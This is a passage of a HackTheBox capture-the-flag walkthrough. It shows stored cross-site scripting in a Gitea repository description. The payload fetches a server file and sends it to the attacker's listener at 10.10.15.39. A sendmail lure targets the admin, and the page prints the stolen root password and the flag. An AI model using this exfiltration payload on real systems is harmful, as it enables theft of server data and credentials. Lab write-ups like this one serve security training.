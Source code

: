 Nice, we can reproduce these steps, let's craft a more advanced payload to grab sensitive data from the server, for example, we can use this to grab the contents of `index.php`:

```js
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.15.39:8000/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>
```

In order to make this work, we need to create a repository:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416130652.png)

And we need to use the payload at the `description` field:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416132041.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416132052.png)


Once we create the repository, we can send an email back to the administrator which in this case is `jobert`, let's send it like this:

```
echo -e "http://localhost:3000/axel/REPO-NAME" | sendmail jobert@localhost
```

We need to have our python server ready before sending the email, once we send it, we can check this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416132139.png)

Let's decode the data:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416132217.png)

There we go, we got credentials for root:

```
root:IKw75eR0MR7CMIxhH0
```

Let's switch to root:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416132330.png)

Now we can read `root.txt` and finish:

```
root@cat:/home/axel# cat /root/root.txt
d22c2ea311a3f638c4dbae4cca596120
```


https://www.hackthebox.com/achievement/machine/1872557/646


